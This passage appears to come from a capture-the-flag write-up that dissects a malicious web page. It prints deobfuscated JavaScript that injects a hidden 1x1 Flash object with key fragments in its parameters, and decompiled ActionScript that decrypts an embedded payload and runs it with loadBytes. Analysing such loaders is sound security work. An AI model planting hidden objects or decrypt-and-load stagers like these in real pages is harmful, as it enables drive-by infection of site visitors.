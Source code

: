 ```javascript
    txt = txt + '<param name="FlashVars" value="a=' + getA("EkRlsOP") + '&b=' + getB("KslLNbQsY") + '&c=' + getC("MpRuyAZx") + '&d=' + getD("QetIoPZ") + '" />';
    txt = txt + '<!--[if !IE]>-->';
    txt = txt + '<object type="application/x-shockwave-flash" data="swf/YWxUdHVpZm9uaQbmV6dndo.swf" allowScriptAccess=always width="1" height="1">';
    txt = txt + '<param name="movie" value="swf/YWxUdHVpZm9uaQbmV6dndo.swf" />';
    txt = txt + '<param name="play" value="true"/>';
    txt = txt + '<param name="FlashVars" value="a=' + getA("EkRlsOP") + '&b=' + getB("KslLNbQsY") + '&c=' + getC("MpRuyAZx") + '&d=' + getD("QetIoPZ") + '" />';
    txt = txt + '<!--<![endif]-->';
    txt = txt + '<!--[if !IE]>--></object><!--<![endif]-->';
    txt = txt + '</object>';
    try {;
    } catch (e) {}
    document.getElementsByTagName("q")[2].innerHTML = txt;
}
xTrueA();
xWait(1200);
```

Again, this is code after my deobfustation and beautification. So, as you can see, another javascript is being injected. There is some checks (i just removed them) and then some `<object>` is 
pasted into source code. So I downloaded that flash and decompiled. Most interesting fragment of it was:

```actionscript
package tmctf {
    import flash.events.*;
    import flash.utils.*;
    import flash.display.*;

    public class Main extends Sprite {

        private var lIIl11l:Class;

        public function Main(){
            this.lIIl11l = Main_lIIl11l;
            super();
            if (stage){
                this.init();
            } else {
                addEventListener(Event.ADDED_TO_STAGE, this.init);
            };
        }
        private function init(_arg1:Event=null):void{
            var _local2:Object = LoaderInfo(this.root.loaderInfo).parameters.a;
            var _local3:Object = LoaderInfo(this.root.loaderInfo).parameters.b;
            var _local4:Object = LoaderInfo(this.root.loaderInfo).parameters.c;
            var _local5:Object = LoaderInfo(this.root.loaderInfo).parameters.d;
            var _local6:String = (((_local4.toString() + _local3.toString()) + _local5.toString()) + _local2.toString());
            var _local7:ByteArray = (new this.lIIl11l() as ByteArray);
            var _local8:ByteArray = lI11lI.l1l1lI(_local7, _local6);
            this.removeEventListener(Event.ADDED_TO_STAGE, this.init);
            var _local9 = "flash.display.Loader";
            var _local10:Class = (getDefinitionByName(_local9) as Class);
            var _local11:Loader = new (_local10)();
            _local11.loadBytes(_local8);
            addChild(_local11);
        }

    }
}//package tmctf 

```